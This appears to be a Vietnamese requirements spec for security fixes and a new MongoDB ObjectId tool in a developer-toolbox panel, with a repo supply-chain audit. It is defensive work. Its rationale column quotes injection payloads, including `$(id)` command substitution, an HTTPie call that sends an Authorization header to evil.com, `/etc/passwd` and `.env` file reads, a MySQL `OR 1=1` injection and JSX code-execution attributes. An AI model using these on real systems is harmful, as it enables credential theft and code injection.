

# Sửa lỗi bảo mật và thêm MongoDB ObjectId - SRS

## System context (C4 L1)

Bên trong ranh giới: `src/`, file `panel/index.html` đã build và commit, và `test/`. Bên ngoài: Orca (host),
nguồn dữ liệu lạ, và nơi người dùng chạy đầu ra. Chỉ hai thứ đi qua ranh giới: text được dán vào và text
được copy ra. Panel không dùng network. Vì vậy hai rủi ro thật là:
- panel bị treo;
- đầu ra biến dữ liệu vô hại thành code chạy được ở nơi người dùng dán nó vào.

## Requirements

| Id | Type | Pri | Requirement | Rationale | Verify |
|---|---|---|---|---|---|
| REQ-001 | FR | must | `tokenizeXml()` chạy trong thời gian tuyến tính với DOCTYPE có internal subset, và vẫn nhận ra `<!DOCTYPE note [<!ENTITY a "b">]>` là một token `doctype`. | Regex DOCTYPE ở `src/tools/xml.js:4` chạy theo hàm mũ. `detect()` gọi nó ngay khi dán, nên 115 byte làm treo hàng giờ. | Test |
| REQ-002 | NFR | must | `detect()` trả về trong 200 ms với mỗi chuỗi dán 100 KB nhắm vào `CSS_LENGTH`, `IPV6_CIDR` và `XML`. | Ba regex ở `src/detect.js:19,21,28` chạy theo bình phương: 100 KB mất 5–16 s. | Test |
| REQ-003 | FR | must | Dán một PEM hoặc khối PGP chứa `PRIVATE KEY` vào ô tìm kiếm thì text không vào ô, không hiện lại trên trang, và panel hiện cảnh báo. | Hiện nay key nằm lại trong `#search` và hiện trong dòng "No tool matches “…”". | Test |
| REQ-004 | FR | must | `parseYaml()` từ chối YAML nở ra hơn 1.000.000 giá trị qua alias, với thông báo lỗi nhắc tới alias. | 370 byte nở thành 291 MB JSON trong một `<pre>`, và panel treo hơn 86 s. | Test |
| REQ-005 | NFR | must | `pxToRemInCss()` chạy trong thời gian tuyến tính với chuỗi số dài. | Regex ở `src/tools/cssunits.js:47` chạy theo lập phương: 4 KB chữ số mất 30 s. | Test |
| REQ-006 | FR | must | `verifyPassword()` từ chối hash có cost lớn hơn 15, với thông báo lỗi, và không chạy bcrypt. | Cost 31 là khoảng 47 giờ CPU cho mỗi phím gõ, và việc đã chạy không hủy được. | Test |
| REQ-007 | FR | must | cURL → HTTPie từ chối method không chỉ gồm chữ cái (`^[A-Za-z]+$`) bằng một thông báo lỗi, và không sinh lệnh. | `-X '$(id)'` cho ra `http $(ID) …`, và lệnh đó chạy được trong shell. HTTPie coi từ đầu tiên không phải chữ cái là URL: `-X evil.com … -u u:p` gửi `Authorization` tới host `evil.com` (đã kiểm với HTTPie 3.2.4). | Test |
| REQ-008 | FR | must | cURL → HTTPie giữ nguyên nghĩa đen của giá trị (header, data field, form field, chuỗi JSON) bắt đầu bằng `@` hoặc `=`, để HTTPie không đọc file local. `-F name=@file` vẫn là upload file. | HTTPie đọc file qua `:@`, `=@`, `:=@` và `==@`. Ví dụ `X:@.env`, `X:=@f.json`, `note==@/etc/passwd` gửi nội dung file đi (đã kiểm với HTTPie 3.2.4). | Test |
| REQ-009 | FR | must | JSON → Go: key có backtick, nháy kép, backslash hoặc ký tự điều khiển cho ra struct tag là một Go string literal hợp lệ duy nhất. | Key được chế tạo sẵn chèn được `func init()` vào code Go. | Test |
| REQ-010 | FR | must | JSON → Rust: `rename = "…"` escape `\`, `"` và ký tự điều khiển. | Key thoát được khỏi chuỗi `rename`. | Test |
| REQ-011 | FR | must | HTML → JSX bỏ attribute có tên không khớp `^[A-Za-z_:][\w:.-]*$`. | Trong HTML, `{...pwn()}` chỉ là một tên attribute lạ. Trong JSX, nó là spread và chạy khi render. | Test |
| REQ-012 | FR | must | HTML → JSX bỏ khai báo style có tên thuộc tính không phải tên CSS. | Tên thuộc tính đi nguyên vào object literal, nên chạy được code. | Test |
| REQ-013 | FR | must | HTML → JSX chỉ đưa handler `on*` vào arrow function khi giá trị không chứa ký tự nào trong `{`, `}`, backtick, `/`, `<`, xuống dòng, U+2028, U+2029. Nếu có, bỏ handler đó. | Giá trị như `}} data-x={pwn(1)} y={() => {` thoát khỏi arrow function. | Test |
| REQ-014 | FR | must | HTML → JSX escape backslash trước backtick và `${` trong text của `<style>`/`<script>`. | `\${x}` thành `\\${x}`, tức một interpolation thật. `content:"\201C"` thành octal escape không hợp lệ. | Test |
| REQ-015 | FR | must | Snippet của Image → Base64 percent-encode `"`, `'`, `(`, `)`, `<`, `>`, `\` và khoảng trắng trong data URI, và bỏ `"`, `<`, `>`, `&`, `[`, `]` khỏi tên file. | Snippet HTML có thể thành ``. | Test |
| REQ-016 | FR | must | Lines → SQL IN có tùy chọn "Escape backslashes (MySQL, MariaDB)". Khi bật, mỗi `\` trong giá trị được nhân đôi. | Với MySQL, `bob\` cộng với `) OR 1=1 #` trả về mọi dòng. | Test |
| REQ-017 | FR | must | Khi tùy chọn REQ-016 tắt và có giá trị chứa `\`, tool hiện cảnh báo nhắc tới MySQL. | Người dùng PostgreSQL/SQLite không cần nhân đôi. Người dùng MySQL phải được nhắc. | Test |
| REQ-018 | FR | must | Tool ObjectId nhận các dạng: 24 hex; `ObjectId("…")` hoặc `ObjectId('…')`, có thể có `new ` phía trước; `{"$oid": "…"}`. Từ khóa (`ObjectId`, `ObjectID`, `$oid`) và chữ hex không phân biệt hoa thường. Tool trả về hex chữ thường. Dạng khác thì báo lỗi. | Đây là các dạng mà mongo shell, Compass, driver Node và Extended JSON in ra. | Test |
| REQ-019 | FR | must | ObjectId → thời gian: lấy `parseInt(8 hex đầu, 16) * 1000` ms, rồi điền 6 ô giờ local (Year, Month, Day, Hour, Minute, Second). | Giống trang gốc. | Test |
| REQ-020 | FR | must | Thời gian → ObjectId: từ 6 ô giờ local, lấy số giây (làm tròn xuống), đổi thành 8 hex, thêm 16 số `0`. Sửa bất kỳ ô nào thì ô ObjectId cập nhật. | Giống trang gốc. | Test |
| REQ-021 | FR | must | Thời gian ngoài khoảng 1970-01-01T00:00:00Z – 2106-02-07T06:28:15Z cho ra lỗi nhắc 1970 và 2106, không ra ObjectId. | Timestamp của ObjectId là 32 bit không dấu. | Test |
| REQ-022 | FR | must | Ô giờ trống, sai khoảng, hoặc ngày không tồn tại (ví dụ 2026-02-30) cho ra lỗi nêu tên ô hoặc ngày. Tool không tự đổi ngày mà không báo. | Trang gốc âm thầm đổi 30/02 thành 02/03. | Test |
| REQ-023 | FR | must | Tool hiện câu lệnh mẫu `db.collection.find({ _id: { $gt: ObjectId("<hex>") } })`, với `<hex>` là ObjectId đang hiển thị. Câu lệnh cập nhật khi sửa ObjectId hoặc sửa ô giờ, và có nút Copy. | Yêu cầu của bạn: câu lệnh mẫu tự thay bằng ObjectId kết quả. | Test |
| REQ-024 | FR | must | Tool hiện `ObjectId("<hex>")`, ISO 8601 (UTC), giờ local kèm offset `GMT±hh:mm` của ngày đang hiển thị, và Unix seconds. Nhãn của 6 ô giờ hiện cùng offset đó. | Giống trang gốc, sửa lỗi offset chỉ tính giờ chẵn và tính theo hôm nay. | Test |
| REQ-025 | FR | must | Dán ObjectId (một trong 3 dạng của REQ-018) vào ô tìm kiếm thì tool ObjectId mở, với giá trị đã điền. | Mọi tool trong repo đều được mở bằng cách dán giá trị. | Test |
| REQ-026 | NFR | must | Tool ObjectId nằm trong nhóm Inspect, ngay sau Timestamp. Panel test hiện có vẫn pass với tool mới: đủ danh sách tool, không cuộn ngang ở 360 px, cả hai theme, không lỗi CSP. | Quy tắc của repo (CONTRIBUTING, bước 5). | Test |
| REQ-027 | FR | must | HTML → JSX bỏ thẻ có tên chứa `.` (cả thẻ mở và thẻ đóng), và giữ nội dung bên trong. | `<window.alert>` là thẻ vô hại trong HTML. Trong JSX nó là member expression, nên React gọi `window.alert(props)` khi render. | Test |

## Constraints & assumptions

**Kiểm tra bẫy (fact, 2026-11-03).** Agent kiểm tra ở commit `e400812`. Tôi đã tự chạy lại các điểm có đánh dấu ✓.
Kết quả từng phần:
- Script chạy trên máy dev: sạch. ✓ `package.json` không có hook `pre`, `post` hay `prepare`. ✓ Script cài đặt
  duy nhất trong dependency là `postinstall` chính thức của esbuild, và `--ignore-scripts` bỏ qua nó. Build chỉ
  ghi `panel/index.html`. Test không ghi file và không dùng mạng. Repo không có `.npmrc`, `.vscode`,
  `.gitattributes`, submodule hay symlink.
- Dependency: sạch. 33/33 package khớp integrity với `npm view`. 7 chữ ký registry hợp lệ, 3 có provenance SLSA.
  OSV không báo lỗi. Code của js-yaml, argparse, bcryptjs và qrcode-generator giống từng byte với tag GitHub
  của chúng.
- Source: sạch. ✓ Không có ký tự bidi (Trojan Source). Không có code bị làm rối, `eval` hay `Function`. Không
  có đường gửi dữ liệu ra mạng. Agent chạy 35 tool khi tắt CSP: 0 request mạng.
- Bundle: sạch. ✓ Build lại thì giống từng byte (`npm run check` xanh). 8 commit trước cũng build lại y hệt.
- Lịch sử git: sạch. 9 commit, một tác giả, không có secret. Thư mục `build/` đã xóa chỉ chứa cùng code đó.
- So với upstream: ✓ `thailoc-dev` main = `loind` main = `e400812`.
- CI và manifest: sạch. CI chạy khi push hoặc mở PR, quyền `contents: read`, không dùng secret.
  `sandboxed-ui`, `capabilities: []`.
- Chưa kiểm tra: hình ảnh trong `cover.png` (về cấu trúc thì sạch). esbuild và playwright-core không được build
  lại từ source; tôi tin provenance của chúng.

**Ràng buộc của repo (CONTRIBUTING.md):**
- Không thêm network, analytics hay runtime dependency.
- `panel/index.html` là một file duy nhất, được commit, và phải khớp với source. CI chạy `npm run check`.
- Frame của Orca chặn `eval`, `new Function` và worker. Build fail nếu bundle chứa `eval` hoặc `new Function`.

**Git và GitHub (fact, 2026-11-03):**
- `loind/orca-dev-toolbox` là GitHub fork của `thailoc-dev/orca-dev-toolbox`, public, branch mặc định `main`.
- GitHub Actions đang tắt trên fork: API trả về 0 workflow và 0 lần chạy. GitHub mặc định tắt Actions trên fork.
- Push qua HTTPS không có credential (`Authentication failed`). Push qua SSH với tài khoản `loind` thì được
  (`git push --dry-run git@github.com:loind/orca-dev-toolbox.git main`: `Everything up-to-date`).

**Môi trường:**
- Node ≥ 20.11 (máy dev đang dùng Node 26).
- Panel test cần Chromium headless shell trong cache của playwright. CI chạy `npx playwright-core install`.
- `~/.npm` trên máy dev có file thuộc root, nên lệnh npm cần `--cache /tmp/npm-cache-odt`.

**Giả định:**
- HTTPie hiểu `\@` là ký tự `@` thường. Người xác nhận: agent review, chạy HTTPie 3.2.4 `--offline`. CI không
  có HTTPie, nên test chỉ kiểm tra dạng chuỗi. Đây là rủi ro nhỏ.
- MySQL và MariaDB với `sql_mode` mặc định coi `\` là ký tự escape. Người xác nhận: agent review, chạy MySQL
  local. Đây cũng là hành vi đã được tài liệu MySQL mô tả.
- Timestamp của ObjectId là 32 bit không dấu (1970–2106). Nguồn: BSON spec, và trang gốc dùng `0xffffffff`.
- Ngưỡng thời gian trong test (100–500 ms) được chọn rộng: bản đã sửa chạy khoảng 1–30 ms trên Apple Silicon,
  còn bản lỗi mất từ vài giây trở lên. Người xác nhận: tôi, bằng cách đo trên máy dev. Chưa đo trên CI Ubuntu.
